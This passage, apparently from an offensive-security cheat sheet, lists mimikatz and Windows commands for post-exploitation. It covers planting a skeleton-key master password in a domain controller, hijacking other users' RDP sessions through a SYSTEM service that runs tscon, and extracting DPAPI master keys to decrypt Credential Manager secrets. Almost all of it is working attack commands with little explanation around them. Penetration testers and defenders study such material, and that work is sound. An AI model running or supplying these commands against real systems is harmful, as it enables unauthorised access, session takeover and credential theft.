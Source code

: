 ```powershell
privilege::debug
misc::skeleton
# map the share
net use p: \\WIN-PTELU2U07KG\admin$ /user:john mimikatz
# login as someone
rdesktop 10.0.0.2:3389 -u test -p mimikatz -d pentestlab
```

## RDP session takeover

Use `ts::multirdp` to patch the RDP service to allow more than two users.

* Enable privileges
  ```powershell
  privilege::debug 
  token::elevate 
  ```
* List RDP sessions
  ```powershell
  ts::sessions
  ```
* Hijack session
  ```powershell
  ts::remote /id:2 
  ```

Run `tscon.exe` as the SYSTEM user, you can connect to any session without a password.

```powershell
# get the Session ID you want to hijack
query user
create sesshijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#55"
net start sesshijack
```


## Credential Manager & DPAPI

```powershell
# check the folder to find credentials
dir C:\Users\<username>\AppData\Local\Microsoft\Credentials\*

# check the file with mimikatz
$ mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0

# find master key
$ mimikatz !sekurlsa::dpapi

# use master key
$ mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0 /masterkey:95664450d90eb2ce9a8b1933f823b90510b61374180ed5063043273940f50e728fe7871169c87a0bba5e0c470d91d21016311727bce2eff9c97445d444b6a17b
```
